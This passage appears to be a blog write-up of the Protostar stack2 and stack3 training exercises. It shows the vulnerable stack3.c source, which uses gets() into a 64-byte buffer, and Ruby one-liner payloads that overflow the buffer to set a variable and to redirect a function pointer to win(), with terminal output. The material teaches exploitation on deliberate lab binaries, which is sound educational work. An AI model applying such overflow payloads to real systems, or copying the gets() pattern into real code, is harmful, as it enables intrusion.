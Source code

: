 }
{% endcodeblock %}

{% codeblock %}
user@protostar:/opt/protostar/bin$ ./stack2 
stack2: please set the GREENIE environment variable

user@protostar:/opt/protostar/bin$ GREENIE=$(ruby -e 'print "A" * 64 + [0x41414141].pack("V")') ./stack2 
Try again, you got 0x41414141

user@protostar:/opt/protostar/bin$ GREENIE=$(ruby -e 'print "A" * 64 + [0x0d0a0d0a].pack("V")') ./stack2 
you have correctly modified the variable
{% endcodeblock %}

## Protostar Stack3
{% codeblock lang:c stack3.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endcodeblock %}

We need to rewrite fp function address with the address of win().
{% codeblock %}
user@protostar:/opt/protostar/bin$ ruby -e 'print "X" * 64 + [0x41414141].pack("V")' | ./stack3 
calling function pointer, jumping to 0x41414141
Segmentation fault

user@protostar:/opt/protostar/bin$ nm ./stack3 | grep win
08048424 T win

user@protostar:/opt/protostar/bin$ ruby -e 'print "X" * 64 + [0x08048424].pack("V")' | ./stack3 
calling function pointer, jumping to 0x08048424
code flow successfully changed
{% endcodeblock %}
